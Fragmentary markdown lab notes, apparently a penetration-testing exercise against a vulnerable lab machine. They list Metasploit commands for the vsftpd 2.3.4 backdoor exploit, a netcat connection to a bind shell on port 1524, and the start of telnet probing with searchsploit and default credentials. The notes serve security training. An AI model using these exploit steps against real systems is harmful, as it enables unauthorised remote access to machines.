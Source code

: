 		-> search vsftpd 2.3.4
		
		
		Select the exploit
		
		-> use exploit/unix/ftp/vsftpd_234_backdoor
		
		-> show info
		
		-> show options
		
		-> set RHOST 192.168.10.4
		
		-> show payloads
		
		-> show targets
		
		-> show options
		
		
		Execute
		
		-> exploit
		
### Step 4:

		Run any commands on the target machine

### Step 5:

		Exit from the target machine
		
		-> exit

# Bind Shell

## Using a tool called Netcat

			See the help menu of netcat
			
						-> nc -h
						
			Run the netcat tool
					
						-> nc 192.168.10.4 1524

# Information Disclosure (Telnet)

## Search the exploit using telnet version

		-> searchsploit Linux telnetd
		
		Note: This is not helpfull
		
	
## Try the default credentials of the telnet
